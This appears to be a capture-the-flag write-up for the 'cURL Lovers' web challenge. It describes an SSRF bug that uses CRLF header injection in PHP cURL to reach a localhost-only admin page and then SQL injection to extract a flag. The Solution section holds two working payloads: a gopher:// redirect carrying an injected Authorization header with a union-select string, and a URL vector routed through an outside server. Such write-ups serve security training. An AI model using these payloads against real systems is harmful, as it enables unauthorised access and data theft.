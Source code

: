 # curl_story_part_1 aka. cURL Lovers

## Overview
This challenge is published on ~ Jan.2014 . Long time ago, SSRF is not well-known like nowadays.

I've setup the challenge contains 2 parts:
1. frontend (index.php) recieves an URL from user.
2. backend (admin.php) can be accessed from `127.0.0.1` only.


## Bug
Was looking for a new idea for a challenge, I found out CLRF in PHP cURL (actually it caused by `libcurl`).

By overwriting HTTP headers, we can set `Authorization-Basic` with abitrary value. and `demo:demo` is skipped. SQLi behind, then extract the flag. 

Few years later, I found this: https://hackerone.com/reports/73242

It's coincident. The reporter filed a report on Dec.2013.

And I reliazed... I found out 0day and put it in the challenge...



## Solution

### raz0r.name
```
<?php

header('Location: gopher://localhost:80/1GET%20%2f%5f%4d%4c%2f%63%68%61%6c%6c%73%2f%63%75%72%6c%5f%73%74%6f%72%79%5f%70%61%72%74%5f%31%2f%61%64%6d%69%6e%2e%70%68%70%20HTTP%2f1.1%0d%0aAuthorization:%20Basic%20' .    urlencode(base64_encode("_ML' or 1=1 union select flag,2 from flag limit 1-- -:admin' or 1=1-- -")).'%0d%0aCookie:demo%3ddemo%0d%0aHost:localhost%0d%0a%0d%0a');
```

### Paul Axe
```
Vector:
http://ctf.wargame.vn/_ML/challs/curl_story_part_1/?url=pwny.tk/curl.php?x%0d%0aAuthorization:%20Basic+J3VuaW9uIHNlbGVjdCBmbGFnLDIgZnJvbSBmbGFnIC0tIDE6MQ==%0d%0a
(My server side code:
<?php

header("Location: http://localhost/_ML/challs/curl_story_part_1/admin.php");
?>
)
```
